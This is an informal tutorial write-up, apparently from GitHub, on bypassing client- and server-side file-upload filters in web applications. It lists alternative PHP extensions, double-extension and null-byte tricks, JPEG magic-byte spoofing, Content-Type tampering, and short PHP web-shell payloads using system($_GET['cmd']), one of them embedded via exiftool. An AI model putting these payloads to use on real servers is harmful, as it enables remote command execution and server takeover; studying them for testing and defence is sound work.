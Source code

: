 
## hi all in this <write up> by : alien0here /insta:alien.php
### so in this writeup we gona talk about :
* how t bypass file upload (client side / server side) filtering
> so let's gooo !
  * first what is a file upload vulnerabilitie
> file upload vuln are when a web server allows users to upload files to its filesystem whitout analizing him 
> this vuln is critical because you can get a shell and controle the server

![](https://miro.medium.com/max/1024/1*7cRFfyAghurUVTK5lk3iXg.png)


so let's back to our main suject
*  from the basics baypass to the server side filtration is changing the extension
> the extension here are alternative extensions that can be used to get around blacklist filters. Here are some extensions for PHP files:
```
.pht, .phtml, .php3, .php4, .php5, .php6, .phtml , .pht , .phar


```
* bypassing whitelists

> and we can use another way is doing double extensions for example if the server allow us to upload image whit .jpg extension so how we can bypass this is easy just follow this steps:
![](https://beaglesecurity.com/blog/images/insufileuplod.png)
```
1-mv shell.php shell.jpg.php
2- upload this revshell whit double extension
```
* onther way is editing the hexadecimal to onther format hexadecimal
![](https://img.wonderhowto.com/img/19/40/63730413103802/0/bypass-file-upload-restrictions-web-apps-get-shell.w1456.jpg)
so let's start whit a small example
> in this example this server allow us to upload jpg images and we have try all at the top TRICKS to bypass this filter but he don't work so let's use this methode
* so this tricks stund for changing the hex of the php revshell to a normamle jpg image sop let's do it
````
before changing the hex 
$ --> file revshell.php
=PHP SCRIPT, ASCII text
and add four A

````
![](https://i.imgur.com/oe434wu.png)
now let's edit it using hexeditor tool
```
$ --> hexeditor revshell.php
and changing the first line of the hex to 
FF D8 FF DB

```
![](https://i.imgur.com/2OlGKdQ.png)
and this hex (FF D8 FF DB) is JPEG raw (.jpg) so the server will not be able to stect it as a .php
```
$ ---> file revshell.php
outpout: <jpeg image data>

```
 so let's move to client side filtration and how to bypass it:
 * for bypassing this type of filtration we can use this tricks

 > intercepting the upload page and editing the content type of the revshell
 * let's start whit an example
 ```
1-active the intercept and catch the request after clicking upload
 ```
![](https://i.imgur.com/h2164Li.png)
this will be the form of the request so now change the Content-type from image/jpeg to ***text/x-php***
> onther different tricks to bypass filters
* e a null byte injection to bypass whitelist filters
(shell.php%00.jpg)
or using (shell.php\x00.jpg)

* if the server check thr content of the file you can just addd GIF89a; to your payload let's do it
> 
```
GIF89a;
<?
system($_GET['cmd'])
?>
```
or just add your payload 
> creating an image file and inserting our payload into it whit **exiftool** 
``` 
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' cul.jpg.php
```
Exiftool is a great tool to view and manipulate exif-data
and note : remenber to change the file name to vul.jpg.php
* and let's move to the content lenght validation and how to bypass it :
This type of validation can be bypassed by uploading a very short malicious code within the
uploaded file depending on the maximum size restriction on the web server
example :
```
if ($_FILES["fileToUpload"]["size"] > 30) {
2. echo "Sorry, your file is too large.";
3. } 
```
so we just need to insert a payload whit  > 30 caractere let's do it
```
<?= $_GET[x] ?>

```